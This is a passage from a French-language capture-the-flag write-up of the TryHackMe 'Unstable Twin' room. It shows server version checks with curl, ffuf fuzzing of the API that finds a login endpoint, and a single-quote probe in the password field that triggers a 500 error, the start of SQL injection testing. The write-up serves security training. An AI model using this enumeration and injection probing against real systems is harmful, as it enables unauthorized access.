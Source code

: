 ```bash
"The login API needs to be called with the username and password fields.  It has not been fully tested yet so may not be full developed and secure"
* Connection #0 to host unstabletwin.thm left intact


```

Quand on regarde avec curl les entêtes changent on a pas les même version de serveur.
La version du serveur de vincent est : 1.3.4-dev  

**Is this the only build? (Yay/Nay)**

Ce n'est pas la seule version, on a deux version qui sont : 
1.3.4-dev et 1.3.6-final.   

**How many users are there?**    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ffuf -u 'http://unstabletwin.thm/api/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -mc all -fs 233

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://unstabletwin.thm/api/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 233
________________________________________________

login                   [Status: 405, Size: 178, Words: 20, Lines: 5]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

On remarque un lien login qui existe.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl -XPOST 'http://unstabletwin.thm/api/login' -d 'username=admin&password=admin'
"The username or password passed are not correct."
tim@kali:~/Bureau/tryhackme/write-up$ curl -XPOST 'http://unstabletwin.thm/api/login' -d "username=admin&password=admin'"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request.  Either the server is overloaded or there is an error in the application.</p>
```
